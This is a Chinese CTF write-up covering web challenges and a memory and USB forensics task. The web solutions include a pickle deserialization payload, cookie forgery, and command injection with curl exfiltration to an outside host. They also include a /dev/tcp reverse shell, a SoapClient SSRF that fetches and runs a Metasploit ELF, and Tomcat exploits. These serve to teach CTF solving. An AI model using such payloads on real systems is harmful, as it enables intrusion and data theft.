










# [高校战“疫”网络安全分享赛] 部分WriteUp


## 前言

这次比赛赛题由各个高校联盟提供，就Web来说赛题质量还是很棒的，打完两天的比赛收获非浅。写下这篇博客，一是为了分享经验给大家，二是为了做个备份，时间长了东西容易忘（唉，感觉记忆力越来越差了:sob:）。

因为个人知识所限，文章中难免出现错误，还请师傅们斧正。:smile:

## Web

### webtmp

```python
import base64
import io
import sys
import pickle

from flask import Flask, Response, render_template, request
import secret


app = Flask(__name__)


class Animal:
    def __init__(self, name, category):
        self.name = name
        self.category = category

    def __repr__(self):
        return f'Animal(name={self.name!r}, category={self.category!r})'

    def __eq__(self, other):
        return type(other) is Animal and self.name == other.name and self.category == other.category


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()


def read(filename, encoding='utf-8'):
    with open(filename, 'r', encoding=encoding) as fin:
        return fin.read()


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.args.get('source'):
        return Response(read(__file__), mimetype='text/plain')

    if request.method == 'POST':
        try:
            pickle_data = request.form.get('data')
            if b'R' in base64.b64decode(pickle_data):
                return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.'
            else:
                result = restricted_loads(base64.b64decode(pickle_data))
                if type(result) is not Animal:
                    return 'Are you sure that is an animal???'
            correct = (result == Animal(secret.name, secret.category))
            return render_template('unpickle_result.html', result=result, pickle_data=pickle_data, giveflag=correct)
        except Exception as e:
            print(repr(e))
            return "Something wrong"

    sample_obj = Animal('一给我哩giaogiao', 'Giao')
    pickle_data = base64.b64encode(pickle.dumps(sample_obj)).decode()
    return render_template('unpickle_page.html', sample_obj=sample_obj, pickle_data=pickle_data)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

因为反序列化时做了验证，且opcodes里不能含有R(调用一个callable对象)，所以不太方便直接getshell，因此我们目标是让`restricted_loads(base64.b64decode(pickle_data)) == Animal(secret.name, secret.category)` 为True。

因为secret未知，所以首先想到的是泄露secret，但是此题是行不通的。换个思路，既然不能泄露secret，那我么就改掉secret，这时候妈妈告诉我先知上有[这么一篇文章](https://xz.aliyun.com/t/7012)。

可以参考SUCTF2019_guess_game这题的做法，我们需要让pickle反序列的时候首先加载`__main__.secret`，将`secret.name`和`secret.category`覆盖为frieggs字符串，再以frieggs字符串为参数构造Animal对象。

思路有了，下面就是写opcodes了，我是直接用[pker](https://github.com/eddieivan01/pker)生成的opcodes。（别问为什么不手撸opcodes，因为菜）

将以下的内容保存为文件x

```
secret = GLOBAL('__main__', 'secret')
secret.name = 'frieggs'
secret.category = 'frieggs'
animal = INST('__main__', 'Animal', 'frieggs', 'frieggs')
return animal
```

```shell
$ python3 pker.py < x
b"c__main__\nsecret\np0\n0g0\n(}(S'name'\nS'frieggs'\ndtbg0\n(}(S'category'\nS'frieggs'\ndtb(S'frieggs'\nS'frieggs'\ni__main__\nAnimal\np3\n0g3\n."
```

将opcodes base64encode，这边要稍微注意一下，不能直接拿去编码，直接编码的话他会把\n当成两个单独的字符去编码，实际上他是一个回车符。

```shell
$ ipython
Python 3.7.5 (tags/v3.7.5:5c02a39a0b, Oct 15 2019, 00:11:34) [MSC v.1916 64 bit (AMD64)]
Type 'copyright', 'credits' or 'license' for more information
IPython 7.11.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64

In [2]: s = "c__main__\nsecret\np0\n0g0\n(}(S'name'\nS'frieggs'\ndtbg0\n(}(S'category'\nS'frieggs'\ndtb(S'frieggs'\nS'frieggs'\ni__main__\nAnimal\np3\n0g3\n."

In [3]: base64.b64encode(s.encode()).decode()
Out[3]: 'Y19fbWFpbl9fCnNlY3JldApwMAowZzAKKH0oUyduYW1lJwpTJ2ZyaWVnZ3MnCmR0YmcwCih9KFMnY2F0ZWdvcnknClMnZnJpZWdncycKZHRiKFMnZnJpZWdncycKUydmcmllZ2dzJwppX19tYWluX18KQW5pbWFsCnAzCjBnMwou'
```

payload:`Y19fbWFpbl9fCnNlY3JldApwMAowZzAKKH0oUyduYW1lJwpTJ2ZyaWVnZ3MnCmR0YmcwCih9KFMnY2F0ZWdvcnknClMnZnJpZWdncycKZHRiKFMnZnJpZWdncycKUydmcmllZ2dzJwppX19tYWluX18KQW5pbWFsCnAzCjBnMwou`



### happyvacation

#### 放弃xss

刚开始看这题以为是xss，黑盒测了半天，后面队友告诉我有git泄露，我。。。。

用[GitHack](https://github.com/BugScanTeam/GitHack.git)拿到源码后审一波，因为有个提交链接，还以为是触发bot，xss打cookie呢，代码上面的写的SCP太唬人了。后面用xss思路审了半天，emmmm我太菜了过滤绕不过。然后再看看代码，这时候注意力就放在了这边的eval上，看能不能代码执行。看了看正则感觉够呛，然后。。。怎么有个clone，事实告诉我不能被表象迷惑。

```php
function answer($user, $answer){
    $this->user = clone $user;
    if($this->right == $answer){
        $this->message = "clever man!";
        return 1;
    }
    else{
        if(preg_match("/[^a-zA-Z_\-}>@\]*]/i", $answer)){
            $this->message = "no no no";
        }
        else{
            if(preg_match('/f|sy|and|or|j|sc|in/i', $answer)){
                // Big Tree 说这个正则不需要绕
                $this->message = "what are you doing bro?";
            }
            else{
                eval("\$this->".$answer." = false;");
                $this->updateList();
            }
        }
        $this->times ++;
        return 0;
    }
}
```

#### clone关键字

```php
<?php
class Foo {
    public $foo1;
    public $foo2;
}
class Bar {
    public $bar1 = "old bar";
}

$foo = new Foo();
$foo -> foo1 = 'old foo';
$foo -> foo2 = new Bar();
var_dump($foo);

$newFoo = clone $foo;
$newFoo -> foo1 = 'new bar';
$newFoo -> foo2 -> bar1 = 'new bar';
var_dump($foo);
var_dump($newFoo);

///var/www/html/test.php:13:
//object(Foo)[1]
//  public 'foo1' => string 'old foo' (length=7)
//  public 'foo2' => 
//    object(Bar)[2]
//      public 'bar1' => string 'old bar' (length=7)

///var/www/html/test.php:18:
//object(Foo)[1]
//  public 'foo1' => string 'old foo' (length=7)
//  public 'foo2' => 
//    object(Bar)[2]
//      public 'bar1' => string 'new bar' (length=7)

///var/www/html/test.php:19:
//object(Foo)[3]
//  public 'foo1' => string 'new bar' (length=7)
//  public 'foo2' => 
//    object(Bar)[2]
//      public 'bar1' => string 'new bar' (length=7)
```

做个测试，发现$newFoo的属性为字符串时，值是拷贝得来。当$newFoo的属性为对象时，值是引用（即保存的对象的地址），修改引用的值时会改变原对象的值。那跟这题有什么关系呢，我们接下来继续看

#### 回到这题

lib.php:

```php
<?php session_start();ob_start();?>
<meta http-equiv="Content-Security-Policy" content="style-src 'self'; script-src 'unsafe-inline' http://<?=$_SERVER['HTTP_HOST']?>/; object-src 'none'; frame-src 'self'">
<?php
// error_reporting(0);
// 真男人从来不关报错
error_reporting(0);
// 哎真香真香

class User{

	public $info;
	public $uploader;
	public $url;
	public $asker;

	function __construct($name){
		$this->info = new Info($name);
		$this->uploader = new Uploader();
		$this->url = new UrlHelper();
		$this->asker = new Asker();
	}
    
    ...(省略非关键代码)

	function __destruct(){
		$_SESSION['user'] = serialize($this);
	}

}

...(省略非关键代码)

class Uploader{

	public $flag;
	public $file;
	public $ext;

	function __construct(){
		$this->flag = 1;
		$this->black_list = ['ph', 'ht', 'sh', 'pe', 'j', '=', 'co', '\\', '"', '\''];
	}

	function check(){
		$ext = substr($_FILES['file']['name'], strpos($_FILES['file']['name'], '.'));
		$reg = '';
		foreach ($this->black_list as $key) {
			$reg .= $key . "|";
		}
		$reg = "/" . $reg . "\x|\s|[\x01-\x20]/i";
		if(preg_match($reg, $ext, $mathches)){
			// echo "Nope!";
			$this->flag = 0;
		}
		$this->ext = $ext;
	}

	function __wakeup(){
		$this->flag = 1;
	}

	function upload(){
		$this->file = $_FILES['file'];
		$this->check();
		if($this->flag){
			if(isset($_FILES['file'])){
				if ($_FILES["file"]["error"] > 0){
					echo "Error: " . $_FILES["file"]["error"];
				}
				else{
					if (file_exists("upload/" . $_FILES["file"]["name"])){
						echo $_FILES["file"]["name"] . " already exists. ";
					}
					else{
						if ($_FILES["file"]["size"] > 10240){
							echo "you are too big ⁄(⁄ ⁄•⁄ω⁄•⁄ ⁄)⁄";
						}
						else{
							$new_addr = $_SERVER['DOCUMENT_ROOT'] . "/upload/" . md5($_FILES['file']['name']) . $this->ext;
							move_uploaded_file($_FILES["file"]["tmp_name"], $new_addr);
							return $new_addr;
						}
					}
				}
			}
		}
		else{
			die("?");
		}
	}
}

class Asker{

	public $question;
	public $right;
	public $answer;
	public $times = 0;
	public $A = True;
	public $B = True;
	public $C = True;
	public $D = True;
	public $message = "大郎快醒醒，老师叫你回答问题啦！";

	function __construct(){
		$this->question = "what is your problem?";
		$this->right = "A";
		$this->answer_list = ['A', 'B', 'C', 'D'];
	}

	...(省略非关键代码)
	
	function updateList(){
		$this->answer_list = [];
		$this->A ? array_push($this->answer_list, "A") : "";
		$this->B ? array_push($this->answer_list, "B") : "";
		$this->C ? array_push($this->answer_list, "C") : "";
		$this->D ? array_push($this->answer_list, "D") : "";
		$this->message = "这都能答错，再给你一次机会！";
	}

	function answer($user, $answer){
		$this->user = clone $user;
		if($this->right == $answer){
			$this->message = "clever man!";
			return 1;
		}
		else{
			if(preg_match("/[^a-zA-Z_\-}>@\]*]/i", $answer)){
				$this->message = "no no no";
			}
			else{
				if(preg_match('/f|sy|and|or|j|sc|in/i', $answer)){
					// Big Tree 说这个正则不需要绕
					$this->message = "what are you doing bro?";
				}
				else{
					eval("\$this->".$answer." = false;");
					$this->updateList();
				}
			}
			$this->times ++;
			return 0;
		}
	}

	...(省略非关键代码)
}

...(省略非关键代码)

```

可以发现User类里的`$this->uploader = new Uploader();`此uploader对象是引用值，当answer方法里clone后的新user对象`$user -> uploader -> back_list`值发生改变时，会影响原user`$user -> uploader -> back_list`的值

我们使用payload`/quiz.php?answer=user->uploader->black_list`会导致`eval("\$this->user->uploader->black_list = false;");`清空上传后缀黑名单，随后受影响的user对象会存入session中。

由于实现上传功能里有这么一段代码，会导致从session中加载我们清空黑名单后的uploader，导致任意文件上传，后面就是上传无情的php一句话，然后拿flag了。

```php
<?php
require_once("lib.php");
if(!isset($_SESSION['user'])){
    $user = new User("no!");
    $user->url->jump("login");
}
else{
    $user = unserialize($_SESSION['user']);
    $user->url->flag = False;
    $user->url->page = "customlize";
}
if(isset($_FILES['file'])){
    $user->upload();
}
```



### nothardweb

#### 外网机

user.php

```php
<?php
class User{
    public $username;
    function __construct($username)
    {
        $this->username = $username;
    }
    function show(){
        return "username: $this->username\n";
    }
}
```

index.php

```php
<?php
    session_start();
    error_reporting(0);
    include "user.php";
    include "conn.php";
    $IV = "********";// you cant know that;
    if(!isset($_COOKIE['user']) || !isset($_COOKIE['hash'])){
        if(!isset($_SESSION['key'])){
            $_SESSION['key'] = strval(mt_rand() & 0x5f5e0ff);
            $_SESSION['iv'] = $IV;
        }
        $username = "guest";
        $o = new User($username);
        echo $o->show();
        $ser_user = serialize($o);
        $cipher = openssl_encrypt($ser_user, "des-cbc", $_SESSION['key'], 0, $_SESSION['iv']);
        setcookie("user", base64_encode($cipher), time()+3600);
        setcookie("hash", md5($ser_user), time() + 3600);
    }
    else{
        $user = base64_decode($_COOKIE['user']);
        $uid = openssl_decrypt($user, 'des-cbc', $_SESSION['key'], 0, $_SESSION['iv']);
        if(md5($uid) !== $_COOKIE['hash']){
            die("no hacker!");
        }
        $o = unserialize($uid);
        echo $o->show();
        if ($o->username === "admin"){
            $_SESSION['name'] = 'admin';
            include "hint.php";
        }
    }
```

审计源码后发现若第一次访问就存在`$_COOKIE['user'] 和 $_COOKIE['hash']`则`$_SESSION['key'] 和 $_SESSION['key']`的值就为null，我们用null为密钥和向量加密payload即可控制uid的值。

```php
<?php
include "user.php";
$user = new User('admin');
$userStr = serialize($user);
$cipher = openssl_encrypt($userStr, "des-cbc", null, 0, null);
//检验一下解密是否正常
$uid = openssl_decrypt($cipher, 'des-cbc', null, 0, null);
$hash = md5($uid);
echo 'user='.base64_encode($cipher).'; hash='.$hash;
//user=b3hIekw5Mk82WTQwbUk1M3RHYThQR0V4UmVZeHVSdE1ranZRYk43eksyVXhaTnFQZ2l1YkRKc0dpd1Z5cUlzVg==; hash=abc2f600e79557ef90ca4e07516b486f
```

cookie伪造后以admin身份登入，发现hint（其实源码里可以发现hint.php，web访问即可看到hint，但是对这题没有影响）。



#### 内网机1（10.10.1.12）

限制6个字符的eval，我卡在这边好久，后来自己琢磨出这个巧妙的（自认为）payload，不知道师傅们是怎么解的

```
index.php?cc=`$cc`;whoami
```

因为没有回显所以首选反弹shell，其次是curl外带数据或者dnslog，后面我尝试过`bash -i >& /dev/tcp/ip/port 0>&1`但是没有成功，然后就curl外带数据。

```
index.php?cc=`$cc`;curl http://BuGaoSuNi.ceye.io/`ls|base64|cut -c 1-10`
index.php?cc=`$cc`;curl http://BuGaoSuNi.ceye.io/`ls|base64|cut -c 11-20`
...
```

payload构造好之后利用反序列化配合soap达到ssrf的效果，后面打到10.10.1.12拿到/hint

``````
your next target is in 10.10.2.13:8080
enjoy it!
``````

还要打内网，那就上msf生成elf马，上传至vps，用下面的payload构造cookie，触发meterpreter shell（我是用frp做的内网穿透，所以地址会是127.0.0.1）

```php
<?php
error_reporting(0);
$a = new SoapClient(null, array('location' => 'http://10.10.1.12/index.php?cc=`$cc`;curl http://MyVPSIp/frieggs.elf>/tmp/frieggs.elf%26%26chmod 777 /tmp/frieggs.elf%26%26/tmp/frieggs.elf',
    'uri'      => "123"));
$s = serialize($a);
$cipher = openssl_encrypt($s, "des-cbc", null, 0, null);
$uid = openssl_decrypt($cipher, 'des-cbc', null, 0, null);
$hash = md5($uid);
echo 'user='.base64_encode($cipher).'; hash='.$hash;
```





```shell
#将session切换至后台
$ meterpreter > bg
#添加一条内网路由
$ msf5 exploit(multi/handler) > route add 10.10.0.0 255.255.0.0 6
#创建msf sock4a代理
$ msf5 exploit(multi/handler) > use auxiliary/server/socks4a
$ msf5 auxiliary(server/socks4a) > run
[*] Auxiliary module running as background job 5.

[*] Starting the socks4a proxy server
```

#### 内网机2（10.10.2.13）

挂上内网代理后发现是Tomcat 8.5.19



##### CVE-2017-12615（Tomcat任意文件上传漏洞）

这里要吐槽一下postman，这么好用的工具竟然只支持http代理，不支持socks代理，还得用Privoxy转发http代理。。。





##### CNVD-2020-10487（Tomcat本地文件包含漏洞）



```shell
$ python ajpShooter.py http://10.10.2.13:8080/ 8009 /frieggs.txt eval

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Set-Cookie: JSESSIONID=13FD21BEF3EB66C6BFFEE7ECD93A0410; Path=/; HttpOnly
[<] Content-Type: text/html;charset=ISO-8859-1
[<] Content-Length: 23

flag{xGJpVxvjqRcwCQZR}
```

## MISC

### ez_mem&usb



导出的zip文件头有多余的数据，删除后多余数据后打开压缩包拿到内存dump文件，用volatility分析内存

```shell
$ volatility -f data.vmem imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : WinXPSP2x86, WinXPSP3x86 (Instantiated with WinXPSP2x86)
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/data.vmem)
                      PAE type : PAE
                           DTB : 0xb18000L
                          KDBG : 0x80546ae0L
          Number of Processors : 1
     Image Type (Service Pack) : 3
                KPCR for CPU 0 : 0xffdff000L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2020-02-24 07:56:47 UTC+0000
     Image local date and time : 2020-02-24 15:56:47 +0800

$ volatility -f data.vmem --profile=WinXPSP3x86 pslist
Volatility Foundation Volatility Framework 2.6
Offset(V)  Name                    PID   PPID   Thds     Hnds   Sess  Wow64 Start                          Exit                          
---------- -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ ------------------------------
0x80ea2660 System                    4      0     52      231 ------      0                                                              
0xff57fc28 smss.exe                372      4      3       19 ------      0 2020-02-23 13:17:13 UTC+0000                                 
0xff432020 csrss.exe               464    372     12      317      0      0 2020-02-23 13:17:13 UTC+0000                                 
0xff435020 winlogon.exe            492    372     20      501      0      0 2020-02-23 13:17:13 UTC+0000                                 
0xff445020 services.exe            668    492     16      253      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff46b020 lsass.exe               680    492     19      309      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff510bf0 vmacthlp.exe            836    668      1       25      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff493568 svchost.exe             848    668     14      189      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff491a78 svchost.exe             932    668     11      230      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff416b10 svchost.exe            1024    668     44      939      0      0 2020-02-23 13:17:14 UTC+0000                                 
0x80dac020 svchost.exe            1072    668      4       57      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff4ca4e0 svchost.exe            1132    668      7      118      0      0 2020-02-23 13:17:14 UTC+0000                                 
0xff30d020 explorer.exe           1476   1400     13      481      0      0 2020-02-23 13:17:15 UTC+0000                                 
0xff51d468 spoolsv.exe            1568    668     10      120      0      0 2020-02-23 13:17:15 UTC+0000                                 
0xff5793d8 VGAuthService.e        1932    668      2       60      0      0 2020-02-23 13:17:33 UTC+0000                                 
0xff576da0 vmtoolsd.exe           2008    668      7      265      0      0 2020-02-23 13:17:40 UTC+0000                                 
0xff4afda0 wmiprvse.exe            540    848     13      242      0      0 2020-02-23 13:17:41 UTC+0000                                 
0xff486da0 vmtoolsd.exe            588   1476      6      229      0      0 2020-02-23 13:17:41 UTC+0000                                 
0xff47dda0 ctfmon.exe              596   1476      1       71      0      0 2020-02-23 13:17:41 UTC+0000                                 
0xff5b57b8 cmd.exe                1396   1476      1       61      0      0 2020-02-23 13:24:09 UTC+0000                                 
0xff4583c0 conime.exe              544   1396      1       38      0      0 2020-02-23 13:24:09 UTC+0000

$ volatility -f data.vmem --profile=WinXPSP3x86 cmdscan
Volatility Foundation Volatility Framework 2.6

**************************************************
CommandProcess: csrss.exe Pid: 464
CommandHistory: 0x556bb8 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 2 LastAdded: 1 LastDisplayed: 1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x504
Cmd #0 @ 0x3609ea0: passwd:weak_auth_top100
Cmd #1 @ 0x5576d0: start wireshark
Cmd #13 @ 0x9f009f: ??
Cmd #41 @ 0x9f003f: ?\?????????

$ volatility -f data.vmem --profile=WinXPSP3x86 filescan|grep flag
Volatility Foundation Volatility Framework 2.6
0x0000000001155f90      1      0 R--rwd \Device\HarddiskVolume1\Documents and Settings\Administrator\flag.img

$ volatility -f data.vmem --profile=WinXPSP3x86 dumpfiles -Q 0x0000000001155f90 --dump-dir=./
Volatility Foundation Volatility Framework 2.6
DataSectionObject 0x01155f90   None   \Device\HarddiskVolume1\Documents and Settings\Administrator\flag.img

$ file file.None.0xff425090.dat 
file.None.0xff425090.dat: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "SYSLINUX", sectors/cluster 2, root entries 112, sectors 360 (volumes <=32 MB), Media descriptor 0xfd, sectors/FAT 1, sectors/track 9, heads 1, reserved 0x1, serial number 0x5d307603, label: "FDD_BOOT   ", FAT (12 bit), followed by FAT

$ mkdir test
$ sudo mount file.None.0xff425090.dat test
$ tree test
test
├── ldlinux.sys
└── newfolder
    └── newfolder
        ├── newfolder
        │   └── newfolder
        │       ├── newfolder
        │       │   └── newfolder
        │       │       └── newfolder
        │       │           └── newfolder
        │       └── newfolder1
        │           └── newfolder1
        │               └── newfolder1
        │                   └── newfolder1
        │                       └── newfolder1
        │                           └── usbdata.zip
        └── newfolder1
            └── newfolder1
                └── newfolder1
                    └── newfolder1
                        └── newfolder1
                            ├── newfolder
                            └── newfolder1

20 directories, 2 files
```

用`weak_auth_top100`作为密码解压usbdata.zip，拿到usbdata.txt，再用以下脚本解析usb流量数据

```python
#!/usr/bin/env python

import sys
import os

DataFileName = "usbdata.txt"

presses = []

normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}

shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}

def main():
    # read data
    with open(DataFileName, "r") as f:
        for line in f:
            presses.append(line[0:-1])
    # handle
    result = ""
    for press in presses:
        Bytes = press.split(":")
        if Bytes[0] == "00":
            if Bytes[2] != "00":
                result += normalKeys[Bytes[2].lower()]
        elif Bytes[0] == "20": # shift key is pressed.
            if Bytes[2] != "00":
                result += shiftKeys[Bytes[2].lower()]
        else:
            print "[-] Unknow Key : %s" % (Bytes[0].lower())
    print "[+] Found : %s" % (result)

if __name__ == "__main__":
    main()
```

```shell
$python usb.py
用proxifier代理python程序到内网
#把[]换成{}
```


## Reference

[https://xz.aliyun.com/t/7012](https://xz.aliyun.com/t/7012)

[https://blog.csdn.net/sinat_29091823/article/details/72637192](https://blog.csdn.net/sinat_29091823/article/details/72637192)

